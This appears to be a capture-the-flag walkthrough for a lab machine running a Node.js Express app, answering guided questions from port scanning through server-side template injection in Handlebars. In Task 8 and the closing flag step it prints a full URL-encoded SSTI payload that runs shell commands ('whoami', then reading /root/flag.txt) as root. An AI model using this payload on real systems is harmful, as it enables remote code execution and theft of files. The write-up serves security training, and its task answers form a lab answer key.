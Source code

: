 # Task 1: What TCP ports does nmap identify as open? Answer with a list of ports seperated by commas with no spaces, from low to high.
22,80

# Task 2: What software is running the service listening on the http/web port identified in the first question?
nmap -sC -sV 10.129.118.214

# Task 3: What is the name of the Web Framework according to Wappalyzer?
Using `Wappalyzer` in Pwn machine, we will get `Express`

# Task 4: What is the name of the vulnerability we test for by submitting {{7*7}}?
Server side template injection

# Task 5: What is the templating engine being used within Node.JS?
Hint: Read the error messages generated by {{7*7}}.

handlebars

# Task 6: What is the name of the BurpSuite tab used to encode text?
Decoder

# Task 7: In order to send special characters in our payload in an HTTP request, we'll encode the payload. What type of encoding do we use?
URL

# Task 8: When we use a payload from HackTricks to try to run system commands, we get an error back. What is "not defined" in the response error?
Using `Burp Suite` and submit this payload `%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27whoami%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D`

Payload resource: [payload](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html)

# Task 9: What variable is traditionally the name of the top-level scope in the browser context, but not in Node.JS?
Global

# Task 10: By exploiting this vulnerability, we get command execution as the user that the webserver is running as. What is the name of that user?
root

# Flag:
Modify the payload from `"return require('child_process').exec('whoami');"` to `return process.mainModule.require('child_process').execSync('cat /root/flag.txt');"`
